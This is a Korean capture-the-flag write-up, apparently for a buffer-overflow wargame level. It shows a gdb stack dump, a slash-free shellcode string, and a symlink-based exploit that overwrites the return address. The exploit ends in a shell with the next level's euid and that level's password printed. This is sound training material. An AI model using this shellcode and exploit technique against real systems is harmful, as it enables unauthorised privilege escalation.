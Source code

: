 ```
(gdb) x/100x $esp
0xbffffc50:     0x000001fb      0x00000010      0x0f8bfbff      0x0000000f
0xbffffc60:     0xbffffc8c      0x00000000      0x00000000      0x00000000
0xbffffc70:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffc80:     0x00000000      0x00000000      0x00000000      0x36383669
0xbffffc90:     0x412f2e00      0x41414141      0x41414141      0x41414141
0xbffffca0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x53535341      0x53535353      0x53535353
0xbffffcd0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffce0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffcf0:     0x53535353      0x41414153      0x41414141      0x41414141
0xbffffd00:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd10:     0x41414141      0x00000041      0x00000000      0x00000000
0xbffffd20:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd30:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffd40:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)
```

스택에서 argv[0]부분의 주소를 확인해보면 `0xbffffca0` 근처 부분에 `A`값들이 들어간 것을 확인 할 수있다.

앞서 말한것 처럼 `A`가 들어가는 곳은 NOP Code가 들어가게 되고 `S`가 들어가는 곳은 Shell Code가 들어가는 공간이다.

> 왜 core 덤프로 확인할 때는 실제 NOP Code와 Shell Code를 넣지 않고 'A'와 'S'를 넣었을까?
>
> 실제 NOP코드와 Shell Code를 넣어서 확인하다 보면 터미널에 글씨들이 깨지는 현상이 일어날 때가 있다. 이를 방지하기 위해 공간만 할당하고 일반적인 문자를 넣어 확인한 것이다.

주소를 확인하였으니 실제 `troll` 바이너리를 심볼릭 링크로 걸고 Exploit을 해보자.



```
'\x2f'없는 shell(48byte) = 
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

> `\x2f`는 `/` 에 해당되는 Hex Code이다. 따라서 Shell Code에 `\x2f`가 들어가게 되면 심볼릭 링크하는 과정에서 `/`로 인식하게 된다. 디렉토리 경로를 나눌때 `/`를 이용하기 때문.

-----

### 0x02. Exploit

```
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80 \xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a \xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

이제 `A`와 `S`가 아닌 실제 Code들을 심볼릭 링크 이름으로 설정한다.



```
[orge@localhost orge]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x 75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\x b1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\xa0\xfc\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱좢
풺ash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
bash$
```
